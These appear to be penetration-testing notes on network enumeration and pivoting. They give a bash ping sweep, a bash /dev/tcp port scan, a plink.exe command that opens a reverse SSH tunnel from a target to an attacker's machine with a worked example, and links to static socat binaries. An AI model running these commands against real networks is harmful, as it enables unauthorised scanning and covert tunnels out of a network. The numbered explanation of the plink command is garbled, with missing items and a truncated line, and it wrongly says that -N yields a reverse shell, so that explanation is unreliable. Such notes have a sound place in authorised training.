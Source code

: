 static mappings may be found in `/etc/hosts` on Linux, or `C:\Windows\System32\drivers\etc\hosts` on Windows. `/etc/resolv.conf` on Linux may also identify any local DNS servers

check the DNS servers for an interface is with `ipconfig /all`

**living off the land shell techniques**

use an installed shell to perform a sweep of the network. For example, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

`for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`

If you suspect that a host is active but is blocking ICMP ping requests, you could also check some common ports using a tool like netcat.

Port scanning in bash can be done (ideally) entirely natively:

`for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done`

#### plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client

{% embed url="https://fr.wikipedia.org/wiki/PuTTY" %}

the use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:\
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

2. `echo y`: This command is used to output the letter 'y' to the console. In this context, it's used to automatically answer 'yes' to any prompts that may appear during the execution of Plink.exe.
3. `.\plink.exe`: This is the Plink executable. The `.\` is used to specify that the file is in the current directory.
4. `-R LOCAL_PORT:TARGET_IP:TARGET_PORT`: This is the remote forwarding local port (LOCAL\_PORT) should be forwarded to a remote address (TARGET\_IP) and port (TARGET\_PORT).

USERNAME@ATTACK the SSH service is running.

6. `-i KEYFILE`: This is used to specify the path to the private key file (KEYFILE) for authentication.
7. `-N`: This option is used to specify that no command will be sent once the connection is made (i.e., a reverse shell).

Ex:

&#x20;if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:\
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

#### Socat

static binaries are easy to find for both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86\_64.zip/download)

{% embed url="https://linuxfr.org/news/socat-un-outil-en-ligne-de-commande-pour-maitriser-vos-sockets" %}
